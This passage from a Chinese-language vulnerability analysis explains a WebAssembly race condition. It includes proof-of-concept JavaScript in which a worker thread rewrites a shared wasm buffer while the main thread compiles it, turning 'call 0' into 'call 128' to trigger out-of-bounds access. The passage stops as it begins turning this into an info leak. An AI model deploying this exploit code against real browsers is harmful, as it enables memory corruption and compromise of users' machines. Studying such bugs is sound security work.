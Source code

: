 ```
&lt;script&gt;
function getSharedTypedArray()`{`
var wasmarr = [
0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00,
0x01, 0x05, 0x01, 0x60, 0x00, 0x01, 0x7f, 0x03,
0x03, 0x02, 0x00, 0x00, 0x07, 0x12, 0x01, 0x0e,
0x67, 0x65, 0x74, 0x41, 0x6e, 0x73, 0x77, 0x65,
0x72, 0x50, 0x6c, 0x75, 0x73, 0x31, 0x00, 0x01,
0x0a, 0x0e, 0x02, 0x04, 0x00, 0x41, 0x2a, 0x0b,
0x07, 0x00, 0x10, 0x00, 0x41, 0x01, 0x6a, 0x0b];
var sb = new SharedArrayBuffer(wasmarr.length);
//---&gt; 1)put WebAssembly code in a SharedArrayBuffer
var sta = new Uint8Array(sb);
for(var i=0;i&lt;sta.length;i++)
sta[i]=wasmarr[i];
return sta;
`}`
var blob = new Blob([
document.querySelector('#worker1').textContent
], `{` type: "text/javascript" `}`)
var worker = new Worker(window.URL.createObjectURL(blob)); //---&gt; 2)create a web worker
var sta = getSharedTypedArray();
worker.postMessage(sta.buffer);
//---&gt;3)pass the WebAssembly code to the web worker
setTimeout(function()`{`
while(1)`{`
    try`{`
        sta[51]=0;
        var myModule = new WebAssembly.Module(sta); //---&gt;4)parse the WebAssembly code
        var myInstance = new WebAssembly.Instance(myModule);
        //myInstance.exports.getAnswerPlus1();
    `}`catch(e)`{`
`}`
`}`
`}`,1000);
//worker.terminate();
&lt;/script&gt;
&lt;/html&gt;
```

PoC中，worker1线程，修改WebAssembly代码，ta[51]改为128。

来看看另外一个线程，将WebAssembly写入SharedArrayBuffer，然后创建一个TypedArray数组sta，并且使用SharedArrayBuffer作为buffer。然后创建线程worker1，并且把SharedArrayBuffer传入worker1线程。当主线程在解析WebAssembly代码的时候，worker1线程修改了代码。worker1线程修改了什么代码？会造成什么影响呢？来看看PoC中WebAssembly code 的反汇编代码。

[![](https://p3.ssl.qhimg.com/t01d0f631aebc02b105.png)](https://p3.ssl.qhimg.com/t01d0f631aebc02b105.png)

worker1线程将”call 0” 指令改为”call 128”，与此同时主线程解析并编译此代码，从而引发OOB访问。

”call 0”指令可以被修改为调用任意wasm函数，如将”call 0”改为”call $leak”，如下：
